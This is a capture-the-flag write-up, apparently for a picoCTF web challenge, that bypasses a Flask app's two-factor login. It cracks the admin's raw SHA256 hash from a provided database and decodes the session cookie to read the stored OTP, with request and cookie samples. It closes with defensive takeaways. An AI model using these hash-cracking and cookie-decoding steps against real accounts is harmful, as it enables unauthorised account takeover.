








# No FA

**Category:** Web Exploitation
**Difficulty:** Medium

---

## Challenge Description

The challenge provides a small Flask web application with a login system and two-factor authentication.

The goal is to access the admin account and retrieve the flag.

The interesting part is that the application implements 2FA incorrectly. Instead of keeping the OTP only on the server side, it stores the generated OTP inside the Flask session cookie.



---

## Source Code Review

I started by reviewing the provided `app.py`.



The first important part is the Flask secret key:

```python
app.secret_key = os.getenv('SECRET_KEY')
```

This tells us that the application uses Flask signed session cookies.

Then, in the home route, the flag is only displayed if the current session username is `admin`:

```python
flag = "No flag for you!!"

if session.get('username') == 'admin':
    flag = os.getenv('FLAG')
```

So the objective is clear:

```text
Become admin
```

The login function checks the password like this:

```python
if user and hashlib.sha256(password.encode()).hexdigest() == user['password']:
```

This means passwords are stored as raw SHA256 hashes in the database.

The most important part is the 2FA logic:

```python
if user['two_fa']:
    otp = str(random.randint(1000, 9999))
    session['otp_secret'] = otp
    session['otp_timestamp'] = time.time()
    session['username'] = username
    session['logged'] = 'false'
    return redirect(url_for('two_fa'))
```

The OTP is generated server-side, but then stored inside the Flask session cookie:

```python
session['otp_secret'] = otp
```

This is the main weakness.

Flask session cookies are signed, but their contents are not encrypted. That means we can decode the cookie and read the OTP value.

The 2FA verification route confirms this:

```python
stored_otp = session['otp_secret']
timestamp = session.get('otp_timestamp')

if stored_otp and otp == stored_otp and (time.time() - timestamp) < 120:
    session['logged'] = 'true'
```

The OTP submitted by the user is compared with the OTP stored in the session.

The OTP is only valid for 120 seconds:

```python
(time.time() - timestamp) < 120
```

So the exploit must be done quickly.

---

## Database Enumeration

Next, I inspected the provided `users.db` file.

```bash
file users.db
sqlite3 users.db
```

Inside SQLite:

```sql
.tables
.schema users
SELECT * FROM users;
```



The database contains a `users` table:

```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    email TEXT NOT NULL,
    password TEXT NOT NULL,
    two_fa BOOLEAN NOT NULL DEFAULT 0
);
```

The admin row is:

```text
5|admin|iamadmin@nfs.com|c20fa16907343eef642d10f0bdb81bf629e6aaf6c906f26eabda079ca9e5ab67|1
```

Important values:

```text
Username: admin
Email: iamadmin@nfs.com
Password hash: c20fa16907343eef642d10f0bdb81bf629e6aaf6c906f26eabda079ca9e5ab67
2FA enabled: 1
```

Since `two_fa = 1`, the admin account requires OTP verification after login.

---

## Cracking the Admin Password

From the source code, I knew the password hash was raw SHA256:

```python
hashlib.sha256(password.encode()).hexdigest()
```

I submitted the admin hash to CrackStation:

```text
c20fa16907343eef642d10f0bdb81bf629e6aaf6c906f26eabda079ca9e5ab67
```



The result was:

```text
apple@123
```

So the admin credentials are:

```text
Username: admin
Password: apple@123
```

---

## Logging in as Admin with Burp Suite

I used Burp Suite to capture the login request.

The login request was:

```http
POST /login HTTP/1.1
Host: foggy-cliff.picoctf.net:54034
Content-Type: application/x-www-form-urlencoded

username=admin&password=apple%40123&action=
```



After submitting the correct admin credentials, the application redirected me to:

```text
/two_fa
```

At this point, I was not fully logged in yet. The session contained:

```text
username = admin
logged = false
otp_secret = generated OTP
```

The important part is the Flask session cookie captured by Burp:

```http
Cookie: session=...
```

This cookie contains the temporary 2FA state.

---

## Decoding the Flask Session Cookie

The Flask session cookie looked like this:

```text
.eJwty0sKgCAQANC7zFqCkfJ3mZCcRPCHTqvo7rVo--DdkFuMFMDB6fMkENC475OOQfyhMoi_cSo02ZcODrVBiavVZtHSKoubgGvSqLQ7l3woqcLzAkbDHGo.aisvAg.s5ft-yRdXNqETGXLpp9uX3Al1zQ
```

A Flask session cookie has multiple parts separated by dots.

Because this cookie starts with a dot, the payload is compressed.

The payload is the part between the first and second dot:

```text
eJwty0sKgCAQANC7zFqCkfJ3mZCcRPCHTqvo7rVo--DdkFuMFMDB6fMkENC475OOQfyhMoi_cSo02ZcODrVBiavVZtHSKoubgGvSqLQ7l3woqcLzAkbDHGo
```

I used CyberChef to decode it.

Recipe:

```text
From Base64
Alphabet: A-Za-z0-9-_
Zlib Inflate
```



CyberChef decoded the session and revealed:

```json
{"logged":"false","otp_secret":"6811","otp_timestamp":1781214978.7296915,"username":"admin"}
```

The important value is:

```text
otp_secret = 6811
```

This is the OTP code required by the 2FA page.

---

## Submitting the OTP

I entered the decoded OTP in the `/two_fa` page.



The OTP was:

```text
6811
```

After submitting it, the application accepted the 2FA verification and marked the session as logged in.

---

## Getting the Flag

After the OTP was accepted, I was redirected to the homepage.

Since the session username was `admin`, the application displayed the flag.



For the public writeup, I redacted the flag:

```text
picoCTF{...PWNED...}
```

---

## Vulnerability Explanation

The vulnerability is an insecure 2FA implementation.

The application generates a random OTP:

```python
otp = str(random.randint(1000, 9999))
```

But instead of storing it only server-side, it stores it inside the Flask session cookie:

```python
session['otp_secret'] = otp
```

Flask session cookies are signed to prevent tampering, but they are not encrypted by default.

That means an attacker can decode the session cookie and read sensitive values inside it.

In this challenge, the OTP is readable from the cookie.

So the attack flow is:

```text
Crack admin password
    → login as admin
        → capture Flask session cookie
            → decode cookie
                → read otp_secret
                    → submit OTP
                        → access admin page
                            → get flag
```

---

## Why Burp Suite Was Useful

Burp Suite was useful to capture the exact session cookie after logging in as admin.

The important request was:

```http
POST /login
```

and the important header was:

```http
Cookie: session=...
```

This session cookie contained the temporary 2FA state.

Using Burp made it easier to copy the cookie value and analyze it with CyberChef.

---

## Important Note About Timeout

The OTP expires after 120 seconds:

```python
(time.time() - timestamp) < 120
```

So if the OTP expires, the fix is simple:

1. Login again as admin.
2. Capture the new session cookie.
3. Decode it again in CyberChef.
4. Submit the new OTP quickly.

---

## Tools Used

* Burp Suite
* CyberChef
* SQLite3
* CrackStation
* Browser DevTools

---

## Key Takeaways

* Always inspect provided source code.
* Raw SHA256 password hashes are crackable if the password is weak.
* Flask session cookies are signed, not encrypted.
* Sensitive values such as OTPs should not be stored inside client-side cookies.
* Burp Suite is useful for capturing authentication cookies.
* CyberChef can decode Flask session payloads using Base64 URL-safe decoding and Zlib Inflate.
* 2FA secrets must be stored server-side.

---

## Summary

The challenge looked like a normal login system with 2FA, but the OTP was stored inside the Flask session cookie.

After extracting the admin hash from `users.db`, I cracked it and logged in as admin.

The site redirected me to the 2FA page, but Burp Suite captured the session cookie. Since Flask sessions are readable, I decoded the cookie using CyberChef and extracted the OTP.

Submitting that OTP completed the login and revealed the flag.

```text
users.db
    → admin SHA256 hash
        → crack password
            → login as admin
                → capture Flask session cookie
                    → CyberChef decode
                        → otp_secret
                            → submit OTP
                                → picoCTF{...PWNED...}
```
